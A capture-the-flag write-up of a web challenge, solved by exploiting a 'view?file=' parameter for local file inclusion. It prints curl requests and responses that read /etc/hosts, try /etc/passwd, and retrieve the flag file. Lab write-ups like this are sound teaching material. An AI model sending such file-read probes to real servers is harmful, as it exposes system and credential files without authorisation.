

# What to do during Christmas? (web) (author: stn)

## Description

```shell
If you need a good excuse to discuss a security topic during a family reunion, the elves prepare a list of cybersecurity-related books and movies. Try to get one during Christmas and enjoy!

PS: We hope they have done a good job securing the web app ;-)

In new browser tab enter url: http://cyberxmas.milestone.dk:[YOUR_DOCKER_PORT>/
```

## Task analysis & solution

The challenge is in web category and when browse the url, after you will see a redirect message:


After these 15 seconds you are ended up to this page:
 
 

That redirected location looked suspicious to me as in the browser we can see the following:

*```view?file=index.html```*

So we have a view with a **`file`** filter command.

The fist thing that come to my mind is to try with some dummy data -> dummy.html



The responce we've got is interesting:
```No such file or directory: '/app/dummy.html'```

So it search a dummy.html file in /app directory
Let's try to use some common linux files like /etc/hosts or /etc/passwd

For easy playground I've moved to curl in cmd shell:

Trying with /etc/hosts
```shell
$ curl http://10.10.8.61:46510/view?file=/etc/hosts -v
*   Trying 10.10.8.61:46510...
* Connected to 10.10.8.61 (10.10.8.61) port 46510
> GET /view?file=/etc/hosts HTTP/1.1
> Host: 10.10.8.61:46510
> User-Agent: curl/8.9.1
> Accept: */*
>
* Request completely sent off
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Content-Disposition: inline; filename=hosts
< Content-Type: application/octet-stream
< Content-Length: 174
< Last-Modified: Sun, 05 Jan 2025 12:02:11 GMT
< Cache-Control: no-cache
< ETag: "1736078531.4621272-174-324273100"
< Date: Sun, 05 Jan 2025 19:38:49 GMT
< Server: Werkzeug/2.0.3 Python/3.9.20
<
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.17.0.2      97804735efee
* shutting down connection #0
```

Trying with /etc/passwd:
```shell
$ curl http://10.10.8.61:46510/view?file=/etc/passwd -v
*   Trying 10.10.8.61:46510...
* Connected to 10.10.8.61 (10.10.8.61) port 46510
> GET /view?file=/etc/passwd HTTP/1.1
> Host: 10.10.8.61:46510
> User-Agent: curl/8.9.1
> Accept: */*
>
* Request completely sent off
* Recv failure: Connection was reset
* closing connection #0
curl: (56) Recv failure: Connection was reset
```

So for hosts works for passwd nope.

The next thing to try is to search for the flag, and based on my experience from previous challenges,
I decided to try with **`flag.txt`** as file name (that name was used in some docker & web categories)

```shell
$ curl http://10.10.8.61:46510/view?file=flag.txt -v
*   Trying 10.10.8.61:46510...
* Connected to 10.10.8.61 (10.10.8.61) port 46510
> GET /view?file=flag.txt HTTP/1.1
> Host: 10.10.8.61:46510
> User-Agent: curl/8.9.1
> Accept: */*
>
* Request completely sent off
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Content-Disposition: inline; filename=flag.txt
< Content-Type: text/plain; charset=utf-8
< Content-Length: 40
< Last-Modified: Wed, 04 Dec 2024 13:40:43 GMT
< Cache-Control: no-cache
< ETag: "1733319643.0-40-532153544"
< Date: Sun, 05 Jan 2025 19:43:38 GMT
< Server: Werkzeug/2.0.3 Python/3.9.20
<
MlestoneCTF{web_security_can_be_simple}
* shutting down connection #0
```

I've got a lucky shot: *```MlestoneCTF{web_security_can_be_simple}```*